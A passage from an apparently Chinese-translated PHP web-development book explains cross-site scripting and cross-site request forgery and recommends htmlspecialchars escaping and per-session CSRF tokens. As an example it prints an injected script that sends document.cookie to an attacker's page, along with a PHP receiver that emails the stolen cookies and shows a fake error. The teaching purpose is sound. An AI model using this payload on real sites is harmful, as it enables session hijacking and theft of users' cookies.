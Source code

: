 有了这个条目，单击按钮后，PHP 编写的表单域就变成了(添加了换行符)

```php
<input type=text name=field size=115 value=''>
<script>window.location=" http://basepath.com/retryaction.php ?
data=" + document.cookie;</script><x ''>
```

并且 JavaScript 被执行。它会将所有的 cookie(`document.cookie`)作为参数发送到 web 页面`retryaction.php`，攻击者已经将其编码为

```php
mail(' cookie@basepath.com ', 'cookie', $_REQUEST['data']);
echo <<<EOT
Sorry, the web server was unable to process the command.
Please try again.
EOT;
```

它通过电子邮件将 cookies 发送给攻击者，然后向用户显示一条消息，用户认为服务器出现了某种问题。(当然有——防 XSS 失败！)

在我的例子中，没有危险，因为“恶意”用户也是授权用户。但是，假设这是一个允许用户发布消息供他人阅读的社交网站。一条消息可能包含与示例格式类似的 JavaScript，然后该 JavaScript 将由阅读该消息的每个人执行，可能有数百人。他们甚至不需要点击任何东西——仅仅查看消息就足够了。攻击者现在拥有该站点所有人的 cookies。

显然，XSS 是相当认真的。但是，通过确保写入浏览器的任何用户提供的值都正确转义了 HTML 字符，您可以从应用程序中完全消除它。真正重要的是`<`，但是避开它们是个好主意，即使只是为了表面上的原因。

这就是为什么在我之前的所有例子中，我总是使用`htmlspecialchars`函数来处理用户提供的写入浏览器的任何内容。正如我在第四章中展示的，我使用了便利函数。

```php
function htmspecial($s) {
    return htmlspecialchars($s, ENT_QUOTES, 'UTF-8');
}
```

所以，如果你努力使用`htmlspecialchars`，你就可以免受 XSS 的攻击。如果您确实希望允许用户提供带格式的文本，要么使用 Markdown ( [第 2 章](2.html))或者，如果您必须允许 HTML，对输入进行完整的解析，这样您就可以过滤掉任何恶意的内容，比如 JavaScript、按钮或表单。

最近，一些浏览器已经实现了部分 XSS 保护，方法是检查请求中是否出现了任何已执行的脚本，在前面的示例中就是这种情况，因为脚本出现在 POST 数据中。这种保护(在谷歌 Chrome 中称为 XSS 审计员)是有帮助的，但它不是一个完整的解决方案，所以继续使用`htmlspecialchars`。

跨站请求伪造

跨站请求伪造(CSRF)与 XSS 完全不同，甚至没有以同样的方式缩写“跨站”。XSS 攻击包括将脚本注入到应用程序生成的 HTML 页面中。CSRF 涉及一个完全不同的应用程序，它试图代表一个没有怀疑但经过授权的用户向您的应用程序发送请求。

CSRF 的攻击可能是这样的:攻击者使用你的应用程序`fluffywarm.com`，购买一些羊毛手套，或者你正在出售的任何东西，了解它是如何工作的，并捕获一些样本 HTML 页面。然后，他或她建立了一个诱人的网站`cheapfluffy.com`，以很低的折扣出售羊毛围巾。嗜羊毛成瘾的受害者需要一些蓬松温暖的东西，就去攻击者的网站浏览，但那里看似无害的购物页面却做了一些额外的事情:他们使用 JavaScript 向`fluffywarm.com`发送请求，完成授权，因为用户仍然登录到`fluffywarm.com`并拥有适当的 cookie。几天后，攻击者得到一些手套作为“礼物”

XSS 捎带上了属于你的应用程序的一个页面；CSRF 完全使用另一个网站上的代码来访问您的应用程序。在这两种情况下，似乎是发起访问的用户得到了授权，但并不知道幕后发生了什么。

没有一种 XSS 防御方法对 CSRF 有效，因为恶意页面来自攻击者的站点，而不是您的站点，而且您无法控制那里的页面是如何编码的。起作用的是确保对应用程序的任何请求都来自应用程序生成的 HTML 页面，而不是来自另一个站点。

防止 CSRF 攻击最常见、最有效的方法是嵌入一个秘密代码，我称之为 csrftoken *，*对每个会话、每个表单和每个按钮都是唯一的。任何进来的请求都必须有那个代码，否则就会被拒绝。来自另一个站点的脚本无法获得代码，就像它无法获得会话一样，因为浏览器强制执行同源策略(SOP ),阻止一个站点的代码读取另一个站点的输出。(XSS 的攻击可以得到它，但你可以阻止 XSS，正如我解释的那样，所以这不会发生。)

csrftoken 可以由添加到`Page::start_session`函数中的代码生成，我在第 5 章的[的“PHP 会话”一节中介绍了这个函数。](5.html)
